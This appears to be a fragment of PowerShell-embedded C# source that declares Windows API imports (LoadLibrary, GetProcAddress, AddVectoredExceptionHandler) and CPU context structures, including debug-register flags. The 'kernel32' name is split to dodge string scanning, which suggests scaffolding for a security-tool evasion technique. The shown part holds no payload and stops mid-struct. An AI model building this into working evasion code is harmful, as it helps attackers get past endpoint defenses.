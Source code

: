 ```powershell
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("ke" +"rne" + "l32", SetLastError = true, CharSet = CharSet.Ansi)]
        public static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)] string lpFileName);

        [DllImport("ke" +"rne" + "l32")]
        public static extern IntPtr AddVectoredExceptionHandler(uint First, IntPtr Handler);

        [Flags]
        public enum CONTEXT64_FLAGS : uint
        {
            // Specifies that this context is for the AMD64 architecture
            CONTEXT64_AMD64 = 0x100000,

            // Control registers (cs, ss, ds, es, fs, gs, and eflags) are valid
            CONTEXT64_CONTROL = CONTEXT64_AMD64 | 0x01,

            // Integer registers (rax, rcx, rdx, rbx, rsp, rbp, rsi, rdi, r8-r15) are valid
            CONTEXT64_INTEGER = CONTEXT64_AMD64 | 0x02,

            // Segment registers (cs, ds, es, fs, gs, ss) are valid
            CONTEXT64_SEGMENTS = CONTEXT64_AMD64 | 0x04,

            // Floating-point state (XMM registers and MXCSR) is valid
            CONTEXT64_FLOATING_POINT = CONTEXT64_AMD64 | 0x08,

            // Debug registers (dr0-dr7) are valid
            CONTEXT64_DEBUG_REGISTERS = CONTEXT64_AMD64 | 0x10,

            // Full context, including control, integer, floating-point, and debug registers, is valid
            CONTEXT64_FULL = CONTEXT64_CONTROL | CONTEXT64_INTEGER | CONTEXT64_FLOATING_POINT,

            // All context, including control, integer, segment, floating-point, and debug registers, is valid
            CONTEXT64_ALL = CONTEXT64_CONTROL | CONTEXT64_INTEGER | CONTEXT64_SEGMENTS | CONTEXT64_FLOATING_POINT | CONTEXT64_DEBUG_REGISTERS
        }


        [StructLayout(LayoutKind.Sequential)]
        public struct M128A
        {
            // High-order 64 bits of the 128-bit value
            public ulong High;

            // Low-order 64 bits of the 128-bit value
            public long Low;
        }

        [StructLayout(LayoutKind.Sequential, Pack = 16)]
        public struct XSAVE_FORMAT64
        {
            // Floating-point control word
            public ushort ControlWord;

            // Floating-point status word
            public ushort StatusWord;

            // Floating-point tag word
            public byte TagWord;

```